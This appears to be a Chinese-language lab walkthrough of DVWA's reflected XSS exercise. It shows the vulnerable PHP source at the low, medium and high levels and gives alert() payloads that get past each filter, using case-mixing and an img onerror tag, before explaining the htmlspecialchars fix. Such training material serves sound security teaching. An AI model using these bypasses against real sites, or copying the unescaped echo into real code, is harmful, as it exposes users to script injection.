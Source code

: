 	**反射性XSS**：攻击者通过电子邮件等方式将包含XSS的恶意连接发送给目标用户。当目标用户访问该链接时，服务器接收该目标用户的请求并处理，然后把带有XSS的代码数据发送给目标用户的浏览器，浏览器解析这段带有xss的恶意代码脚本后，就会触发xss漏洞。


## 1、Low
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '
<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

通过查看代码我们可以看到并没有任何的过滤。

**实战**<br />构造payload，通过提交框提交
```
<script>alert("XMTX")</script>
```
![image-20210416145651838.png](_img/assets/1655880402631-b06e9492-c43b-4ccd-9363-80b3e9f8ee90.png)


## 2、Medium
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "
<pre>Hello ${name}</pre>";
}

?>
```

**函数说明**
```
str_replace()
定义和用法
str_replace() 函数替换字符串中的一些字符（区分大小写）。

语法
str_replace(find,replace,string,count)
find：必需。规定要查找的值。
replace：必需。规定替换 find 中的值的值。
string：必需。规定被搜索的字符串。
count：可选。一个变量，对替换数进行计数。

例：
<?php
$arr = array("blue","red","green","yellow");
print_r(str_replace("red","pink",$arr,$i));
echo "Replacements: $i";
?>
运行结果：Array ( [0] => blue [1] => pink [2] => green [3] => yellow )
		Replacements: 1
```

通过查看源码可以看到使用str_replace()函数对<`script>`进行了过滤，不过我i们可以使用大小写绕过。

**实战**<br />构造payload：
```
<sCrIpt>alert("XMTX")</ScRipt>
```
![image-20210416150353296.png](_img/assets/1655880415257-810f12cf-0689-40a9-91d1-6ea684b5d8e0.png)


## 3、High
**查看源码**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "
<pre>Hello ${name}</pre>";
}

?>
```

**函数说明**
```
preg_replace 函数执行一个正则表达式的搜索和替换。

语法
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

参数说明：
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。
$limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
$count: 可选，为替换执行的次数。

返回值
如果 subject 是一个数组， preg_replace() 返回一个数组， 其他情况下返回一个字符串。
如果匹配被查找到，替换后的 subject 被返回，其他情况下 返回没有改变的 subject。如果发生错误，返回 NULL。
```

通过代码我们可以看到对`<script`进行了检测，不过我们可以使用img 标签。

**实战**<br />构造payload：
```
<img src=1 onerror=alert("XMTX")>
```
![image-20210416150755422.png](_img/assets/1655880433204-d5fc13ac-8f9f-480d-96cd-fe65e9fafdf1.png)


## 4、Impossible

**查看源码**
```php
<?php// Is there any input?if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {    // Check Anti-CSRF token    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );    // Get input    $name = htmlspecialchars( $_GET[ 'name' ] );    // Feedback for end user    echo "
<pre>Hello ${name}</pre>";}// Generate Anti-CSRF tokengenerateSessionToken();?>
```

**函数说明**
```
定义和用法htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。预定义的字符是：& （和号）成为 &amp;" （双引号）成为 &quot;' （单引号）成为 '< （小于）成为 &lt;> （大于）成为 &gt;语法htmlspecialchars(string,flags,character-set,double_encode)string	必需。规定要转换的字符串。flags	可选。规定如何处理引号、无效的编码以及使用哪种文档类型。
```

通过源码可以看出，先判断name是否为空，不为空的话然后验证其token，来防范CSRF攻击。然后再用htmlspecialchars函数将name中的预定义字符转换成html实体，这样就防止了我们填入标签

当我们输入 `<script>alert('XMTX')</script>` 时，因为 htmlspecialchars 函数会将 `<` 和 `>` 转换成html实体,并且![](https://g.yuque.com/gr/latex?%7Bname%7D%E5%8F%96%E7%9A%84%E6%98%AF#card=math&code=%7Bname%7D%E5%8F%96%E7%9A%84%E6%98%AF&id=BRang)name的值，然后包围在`

